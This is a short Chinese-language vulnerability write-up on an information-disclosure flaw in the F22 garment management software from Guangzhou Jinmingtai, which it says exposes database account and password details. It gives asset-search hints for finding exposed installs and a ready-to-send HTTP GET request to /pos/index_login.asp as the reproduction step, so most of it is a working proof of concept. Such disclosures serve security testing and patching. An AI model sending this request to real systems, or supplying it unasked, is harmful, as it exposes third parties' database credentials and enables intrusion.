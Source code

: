 # 广州锦铭泰软件科技有限公司F22服装管理软件系统index_login.asp存在信息泄漏漏洞

# 一、漏洞简介
广州锦铭泰软件科技有限公司，是一家专业为品牌服饰鞋包企业提供信息化解决方案的高科技企业，该公司开发的F22服装管理软件系统存在信息泄漏漏洞，攻击者最终可利用该漏洞获取数据库账号密码等连接信息。

# 二、影响版本
+ F22服装管理软件系统

# 三、资产测绘
+ hunter
+ 特征

![1701097856863-836b585b-5ad5-4a30-9d15-de84e9bb5567.png](./img/MHECYITamkoAwlWR/1701097856863-836b585b-5ad5-4a30-9d15-de84e9bb5567-922677.png)

# 四、漏洞复现
```java
GET /pos/index_login.asp HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![1702014624209-0f6319f6-e292-4c9c-a571-8600d6f09242.png](./img/MHECYITamkoAwlWR/1702014624209-0f6319f6-e292-4c9c-a571-8600d6f09242-352619.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ols3csnzkgnc69fn>